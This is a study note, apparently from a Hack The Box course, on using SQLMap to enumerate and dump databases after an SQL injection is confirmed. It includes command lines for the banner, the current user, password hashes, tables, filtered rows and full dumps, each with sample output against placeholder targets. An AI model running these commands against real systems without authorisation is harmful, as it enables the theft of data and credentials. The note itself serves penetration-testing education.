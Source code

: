 
***
###### `Title :- Database Enumeration`
###### `Created on :- 2023-06-23 - 05:56`
###### `Created by:- Prem J`
***

- After the detection and confirmation of exploitability of the targeted SQLi vulnerability. We perform enumeration which consists of lookup and retrieval (i.e. exfiltration) of all available information from the vulnerable database.

#### `SQLMap Data retrieval -->`

- for data retrieval SQLMap has a predefined set of queries for all DBMSes, where each entry represents the SQL that must be run at the target to retrieve desired content.
- For example, [queries.xml](https://github.com/sqlmapproject/sqlmap/blob/master/data/xml/queries.xml) contains the SQL's for MySQL DBMS.
- For example, if a user wants to retrieve the "banner" (switch `--banner`) for the target based on MySQL DBMS, the `VERSION()` query will be used for such purpose.  
- In case of retrieval of the current user name (switch `--current-user`), the `CURRENT_USER()` query will be used.

#### `Basic Database Data Enumeration -->`

- Upon detection of an SQLi vulnerability, we can begin enumeration of basic details

banner --> `--banner`
current user's name --> `--current-user`
current db name --> `--current-db`

- Upon checking the user permissions (if admin) we can proceed further by using addition enumeration commands.

hostname --> `--hostname`
password hashes --> `--passwords`

```shell-session
prem@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

***SNIP***
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

>[!Note]
>The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

#### `Table Enumeration -->`

```shell-session
premjampuram@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

- We use the `--tables` switch to list the tables in the DB mentioned, upon listing we can use the `-T` switch to filter the specific table we intent to retrieve data (`--dump`) from.

```shell-session
premjampuram@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

>[!tip]
>Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

#### `Table and Row Enumeration -->`

- When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option, as follows

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname
```

- To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:

```shell-session
prem@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

#### `Conditional Enumeration -->`

- If there is a requirement to retrieve certain rows based on a known `WHERE`condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:

```shell-session
prem@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

#### `Full DB Enumeration -->`

- Instead of retrieving content per single-table basis, we can retrieve all tables inside the database of interest by skipping the usage of `-T` altogether which specifies the specific table that need to be retrieved.
- By simply using the switch `--dump` without specifying a table with `-T`, all of the ***current database*** content will be retrieved. As for the `--dump-all` switch, all the content from ***all the databases*** will be retrieved.
- In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to ***skip the retrieval of content from system databases***, as it is usually of little interest for pentesters.